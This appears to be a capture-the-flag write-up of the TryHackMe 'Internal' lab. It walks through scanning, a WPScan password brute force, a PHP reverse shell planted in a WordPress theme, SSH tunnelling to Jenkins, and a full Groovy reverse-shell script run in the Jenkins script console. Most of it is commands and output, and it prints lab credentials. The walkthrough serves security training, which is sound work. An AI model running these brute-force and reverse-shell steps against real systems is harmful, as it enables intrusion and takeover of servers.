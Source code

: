 <img src="https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/main/Internal%20(THM)/Images/222b3e855f88a482c1267748f76f90e0.jpeg?raw=true" alt="Internal Screenshot" width="150"/>


Internal (Tryhackme)
#Penetration Testing Challenge#

# Enumeration

## Nmap

```jsx
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzpZTvmUlaHPpKH8X2SHMndoS+GsVlbhABHJt4TN/nKUSYeFEHbNzutQnj+DrUEwNMauqaWCY7vNeYguQUXLx4LM5ukMEC8IuJo0rcuKNmlyYrgBlFws3q2956v8urY7/McCFf5IsItQxurCDyfyU/erO7fO02n2iT5k7Bw2UWf8FPvM9/jahisbkA9/FQKou3mbaSANb5nSrPc7p9FbqKs1vGpFopdUTI2dl4OQ3TkQWNXpvaFl0j1ilRynu5zLr6FetD5WWZXAuCNHNmcRo/aPdoX9JXaPKGCcVywqMM/Qy+gSiiIKvmavX6rYlnRFWEp25EifIPuHQ0s8hSXqx5
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMFOI/P6nqicmk78vSNs4l+vk2+BQ0mBxB1KlJJPCYueaUExTH4Cxkqkpo/zJfZ77MHHDL5nnzTW+TO6e4mDMEw=
|   256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMlxubXGh//FE3OqdyitiEwfA2nNdCtdgLfDQxFHPyY0
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

## HTTP (80)

### Dirsearch

```jsx
[05:28:52] 301 -  313B  - /blog  ->  http://10.10.120.129/blog/             
[05:28:53] 200 -    2KB - /blog/wp-login.php                                
[05:28:53] 200 -   18KB - /blog/                                            
[05:29:29] 301 -  319B  - /javascript  ->  http://10.10.120.129/javascript/ 
[05:29:53] 301 -  319B  - /phpmyadmin  ->  http://10.10.120.129/phpmyadmin/ 
[05:29:55] 200 -    3KB - /phpmyadmin/doc/html/index.html                   
[05:29:56] 200 -    3KB - /phpmyadmin/                                      
[05:29:56] 200 -    3KB - /phpmyadmin/index.php
[05:30:08] 403 -  278B  - /server-status/                                   
[05:30:08] 403 -  278B  - /server-status
[05:30:35] 200 -    2KB - /wordpress/wp-login.php                           
[05:30:36] 404 -   51KB - /wordpress/ 
```

### Website functionality

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/2671ded0991d8af2f269acb872174d3993c4bc47/Internal%20(THM)/Images/image%20(3).png)

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/2671ded0991d8af2f269acb872174d3993c4bc47/Internal%20(THM)/Images/image%20(4).png)

- username admin is available
- bruteforce password

## WPScan

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Internal]
└─$ wpscan --url http://10.10.120.129/blog -e vp,u

┌──(kali㉿kali)-[~/CTF/tryhackme/Internal]
└─$ wpscan --url http://10.10.120.129/blog --usernames admin --passwords /usr/share/wordlists/rockyou.txt --max-threads 50
```

```jsx
[!] Valid Combinations Found:
 | Username: admin, Password: my2boys
```

## Post Enumeration

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/2671ded0991d8af2f269acb872174d3993c4bc47/Internal%20(THM)/Images/image%20(5).png)

```jsx
william:arnold147
```

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Internal]
└─$ ssh william@10.10.120.129
william@10.10.120.129's password: 
Permission denied, please try again.
william@10.10.120.129's password: 
```

- ssh cannot connect

### Reverse Shell

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/2671ded0991d8af2f269acb872174d3993c4bc47/Internal%20(THM)/Images/image%20(6).png)

- we upload php-revershell-php

```jsx
http://internal.thm/blog/wp-content/themes/twentyseventeen/404.ph
```

- tick this link

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Internal]
└─$ nc -lvnp 53    
listening on [any] 53 ...
connect to [10.4.9.248] from (UNKNOWN) [10.10.120.129] 34560
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 10:06:33 up 44 min,  0 users,  load average: 0.00, 0.14, 0.88
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

```jsx
$ cd /opt
$ ls -lah
total 16K
drwxr-xr-x  3 root root 4.0K Aug  3  2020 .
drwxr-xr-x 24 root root 4.0K Aug  3  2020 ..
drwx--x--x  4 root root 4.0K Aug  3  2020 containerd
-rw-r--r--  1 root root  138 Aug  3  2020 wp-save.txt
$ cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
```

- we check cat /etc/passwd
- aubreanna is user
- we ssh login

```jsx
aubreanna@internal:~$ ls
jenkins.txt  snap  user.txt
```

```jsx
aubreanna@internal:~$ cat jenkins.txt 
Internal Jenkins service is running on 172.17.0.2:8080
```

- the ip may be docker

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Internal]
└─$ ssh -L 8080:172.17.0.2:8080 aubreanna@10.10.120.129

```

- link connect this docker ip

```jsx
  System information as of Sat Jun  7 10:16:41 UTC 2025

  System load:  0.0               Processes:              112
  Usage of /:   63.8% of 8.79GB   Users logged in:        0
  Memory usage: 37%               IP address for eth0:    10.10.120.129
  Swap usage:   0%                IP address for docker0: 172.17.0.1

  => There is 1 zombie process.
```

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/2671ded0991d8af2f269acb872174d3993c4bc47/Internal%20(THM)/Images/image%20(7).png)

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/2671ded0991d8af2f269acb872174d3993c4bc47/Internal%20(THM)/Images/image%20(8).png)

- fuzz password

```jsx
admin : spongebob
```

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/2671ded0991d8af2f269acb872174d3993c4bc47/Internal%20(THM)/Images/image%20(9).png)

### Jenkins Reverse Shell

- In jenkins, we can get reverse shell from `scripting console`

```jsx
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

- Can find at groovy reverse shell online
- Change string cmd = `“/bin/sh”`

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Internal]
└─$ nc -lvnp 8044
listening on [any] 8044 ...
connect to [10.4.9.248] from (UNKNOWN) [10.10.120.129] 60380
id
uid=1000(jenkins) gid=1000(jenkins) groups=1000(jenkins)

```

```jsx
cd opt
ls -lah
total 12K
drwxr-xr-x 1 root root 4.0K Aug  3  2020 .
drwxr-xr-x 1 root root 4.0K Aug  3  2020 ..
-rw-r--r-- 1 root root  204 Aug  3  2020 note.txt
cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123
```

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Internal]
└─$ ssh root@10.10.120.129
root@10.10.120.129's password: 
```
